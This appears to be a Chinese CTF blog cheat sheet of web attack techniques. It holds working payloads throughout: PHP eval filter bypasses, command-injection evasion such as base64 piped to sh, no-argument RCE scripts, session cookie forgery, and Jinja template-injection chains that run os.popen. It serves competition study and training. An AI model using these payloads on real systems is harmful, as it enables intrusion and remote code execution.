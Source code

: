 ```yaml
---
layout: post
title: "web常见攻击方法"
date: 2018-10-23 15:23:57 +0800
description: ""
category: ctf/web
tags: []
---
```


- python -m SimpleHTTPServer 80
- grep -ri flag . #recursive/insensitive grep flag string in current directory files
- 使用`$_REQUEST[]`接收参数的代码，如果同时使用GET和POST两种方式传相同类型的参数，那么POST的参数会覆盖掉GET的参数，最终`$_REQUEST[]`接受的参数是POST过来的参数
- cat被过滤：tac

## 代码审计

#### 直接命令执行

###### 极限利用（限制可执行命令的长度和字符类型）：[Web-2，安恒月赛-2018-09](http://skysec.top/2018/09/24/2018%E5%AE%89%E6%81%92%E6%9D%AF-9%E6%9C%88%E6%9C%88%E8%B5%9BWriteup/#Web2)

```php
    if(strlen($code)>35){ #限制长度小于等于35
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){ #限制不能使用大小写字符、数字、下划线和美元符
        die("NO.");
    }
    @eval($code);
```

原理：利用通配符`? * %`执行命令：`/???/??? => /bin/cat `，利用模板渲染回显结果：`<?=``?> `，完整利用步骤如下：

```
?><?=`/???/???%20/???/???/????/*`?>
"/bin/cat /var/www/html/index.php" #读取源码
?><?=`/???/???%20/????`;?>
"/bin/cat /flag" #读取flag
```

###### [命令注入及绕过waf](https://www.jianshu.com/p/000a4ad1b933)：ezsql（安恒月赛-2018-11），PingPingPing（GXY-CTF-2019）

- 分割命令用`;`或者逻辑运算符`&&`：`id;id`，`id&&id`

- 过滤空格：`$IFS`，`${IFS}`，`$IFS$9`，`%09`，`<` #$9只是当前系统shell进程的第九个参数的持有者，它始终为空字符串。

- 过滤`/`：`expr substr $(pwd) 1 1`

- 过滤flag：base64方式`?ip=127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh`；bash方式`?ip=127.0.0.1;a=ag;b=fl;cat$IFS$9$b$a.php`；两者结合

  ```sh
  a=`echo$IFS$9ZmxhZy5waHA=|base64$IFS$9-d`;tac$IFS$9$a
  cat$IFS$9`ls`
  ```

###### 进制转换：[Love-Math，CISCN-2019](https://www.cnblogs.com/20175211lyz/p/11588219.html)

```php
//base_convert(37907361743,10,36) => 将10进制转36进制，得到a-z，"hex2bin"
//dechex(1598506324) => 将十进制转换为十六进制，"5f474554"
//$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串，下划线、空格、星号等特殊符号无法直接通过base_convert进制转换，因此需要借助hex2bin
//($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  //{}可以代替[]
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat flag.php
//(base_convert(53179,10,36)=1517) ^ (base_convert(110136,10,36)=nrtc) = _GET
0=system&1=cat%20flag.php&c=$pi=base_convert;$pi=$pi(53179,10,36)^$pi(110136,10,36);$$pi{0}($$pi{1})

//base_convert(696468,10,36) => "exec"
//$pi(8768397090111664438,10,30) => "getallheaders"
//exec(getallheaders(){1})
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1}) //再通过BP设置HTTP头：1: cat flag.php

//exec('hex2bin(dechex(109270211257898))') => exec('cat f*')
($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))

//system('cat'.dechex(16)^asinh^pi) => system('cat *')
base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi)) //'10'^'as'^'pi'=>' *'
```

###### [无参函数RCE](http://www.pdsdt.lovepdsdt.com/index.php/2019/11/06/php_shell_no_code/)：[禁止套娃](http://www.pdsdt.lovepdsdt.com/index.php/2019/12/23/gxy_ctf-ginkgo/)（GXYCTF-2019），[boring_code](https://www.cnblogs.com/BOHB-yunying/p/11616311.html)（bytectf-2019）

```php
if(';' === preg_replace('/[a-z|\-]+\((?R)?\)/', NULL, $_GET['exp'])) {
  if (!preg_match('/et|na|nt|info|dec|bin|hex|oct|pi|log/i', $code)) {
#(?R)? recurses the entire pattern
#preg_replace的主要功能无限嵌套匹配纯小写字母和-的函数，替换为空，最后只剩下;，例如：aaa(bbb(ccc()))这种，带参数的aaa('bbb')是不允许进行传入的
#preg_match的主要功能就是过滤函数，把一些常用不带参数的函数关键部分都给过滤了，需要去构造别的方法去执行命令

getcwd() 函数返回当前工作目录。
scandir() 函数返回指定目录中的文件和目录的数组。
dirname() 函数返回路径中的目录部分，结合getcwd返回上一级目录。
chdir() 函数改变当前的目录。
readfile/readgzfile/highlight_file/show_source()  输出一个文件
current/pos() 返回数组中的当前单元, 默认取第一个值
reset() 函数将内部指针指向数组中的第一个元素，并输出
next() 函数将内部指针指向数组中的下一个元素，并输出。
end()  将内部指针指向数组中的最后一个元素，并输出。
array_rand() 函数返回数组中的随机键名，或者如果您规定函数返回不只一个键名，则返回包含随机键名的数组。
array_flip() 反转/交换数组中所有的键名以及它们关联的键值，结合array_rand遍历所有键值
array_reverse() 以相反的元素顺序返回数组
array_slice() 函数在数组中根据条件取出一段值，并返回
chr() 函数从指定的 ASCII 值返回字符。
hex2bin() 转换十六进制字符串为二进制字符串
getenv() 获取一个环境变量的值(在7.1之后可以不给予参数)
```

- Apache环境，利用getallheaders()

在HTTP头中加入`：system('ls /tmp');`

`eval(end(getallheaders()))`

- 其他环境


1. 利用get_defined_vars()

`eval(end(current(get_defined_vars())));&sky=system('ls%20/tmp');`当get_defined_vars返回的列表第一项是`_GET`可用，否则需要array_rand(array_flip())遍历；end取最后一个元素的值`system('ls%20/tmp')`。如果网站过滤了`_GET/_POST/_COOKIE`，则需要从`_FILES`下手：

```python
import requests
from io import BytesIO
payload = "system('ls /tmp');".encode('hex')
files = {
  payload: BytesIO('sky cool!')
}
r = requests.post('http://localhost/?code=eval(hex2bin(array_rand(end(get_defined_vars()))));', files=files, allow_redirects=False)
print r.content
```

2. 利用session_id()和hex2bin

```python
import requests
url = 'http://localhost/?code=eval(hex2bin(session_id(session_start())));' #session_start()开启session会话
payload = "echo 'sky cool';".encode('hex')
cookies = {
	'PHPSESSID':payload
}
r = requests.get(url=url,cookies=cookies)
print r.content
```

3. 利用`scandir/dirname/chdir/getcwd`目录操作以及`readfile/readgzfile/highlight_file`读文件操作

```php
pos(localeconv()) #localeconv数组第一个元素是.
chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))) #chr(46)得到.
chr(pos(localtime(time))) #localtime(time)返回时间数组，pos取秒得到0-60内的一个数，设置Burpsuite一秒间隔发包，第46秒得到.
chr(ord(hebrevc(crypt(phpversion())))) #MD5加密后反向显示，由于crypt(str,salt)的salt值会随机生成，因此需要多请求几次得到.开始的字符串，转ord，再chr得到.

show_source(next(array_reverse(scandir(pos(localeconv())))));
print_r(highlight_file(next(array_reverse(scandir(pos(localeconv()))))));
echo(readfile(end(scandir(reset(localeconv())))));
echo(readfile(end(scandir(chr(pos(localtime(time(chdir(next(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))))))))))); #chdir(next(scandir(.)读上一级目录
```

## 购物商城

#### 条件竞争&整数溢出：[itshop，护网杯-2018](http://skysec.top/2018/10/13/2018%E6%8A%A4%E7%BD%91%E6%9D%AF-web-writeup/#ltshop)

一个账户的两个登陆同时买辣条，只会扣一次钱，却会得到两个辣条，利用burpsuite进行条件竞争。

整数溢出：

int： `2**32-1 = 4294967295`

long： `2**63 -1 = 9223372036854775807`

unsignedlong： `2**64-1 = 18446744073709551615`

由于5个辣条兑换1个辣条之王，构造兑换数量，使兑换数量*5溢出，小于已有辣条数量即可，因此兑换数量为：

```python
i = 2**64 // 5 + 1 # 3689348814741910324
j = i * 5 % (2 ** 64) # 4
```

#### 伪造购物用户：[ezshop，安恒月赛-2018-10](https://www.smi1e.top/?p=119#ezshop)

查询数据库user表，查到admin的用户id，订单支付的时候，将当前用户id修改为admin的用户id，伪造签名，从而使用admin的账号代为支付。

## Python站

#### flask-session伪造：[留言板，中原工学院-2018](https://mp.weixin.qq.com/s/BMsWmiy9Hs0BRqr9EibThQ)

利用[Flask-session Cookie Decoder/Encoder](https://github.com/noraj/flask-session-cookie-manager)伪造admin的cookie，必须使用`python3`。

```powershell
>python3 D:\ctf\tools\packet\flask-session-cookie-manager\session_cookie_manager.py decode -c eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIlx1NzY3Ylx1NWY1NVx1NjIxMFx1NTI5ZiJdfV0sIm5hbWUiOiJ0ZXN0In0.XCLoGg.hkrHrcE6cV_TTN8o1UCEvQjmpik -s dropseckey123
{'_flashes': [('message', '登录成功')], 'name': 'test'}
>python3 D:\ctf\tools\packet\flask-session-cookie-manager\session_cookie_manager.py encode -t "{'_flashes': [('message', '登录成功')], 'name': 'admin'}" -s dropseckey123
eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIlx1NzY3Ylx1NWY1NVx1NjIxMFx1NTI5ZiJdfV0sIm5hbWUiOiJhZG1pbiJ9.XCLpjw.3pQY5fDClFG0yNTv2EZKyp6S_eE
```

[flask之ssti模板注入](https://xz.aliyun.com/t/3679)：[flask，NCTF-2019](https://wiki.merak.codes/writeup/NJUPT-2019)

```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('cat%20/fla?').read()}}
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('cat /f'+'lag').read()}}
{{[].class.base.subclasses()[40](('galf/'%7Creverse)).read()}} #jinja语法
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
{{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')}}
```

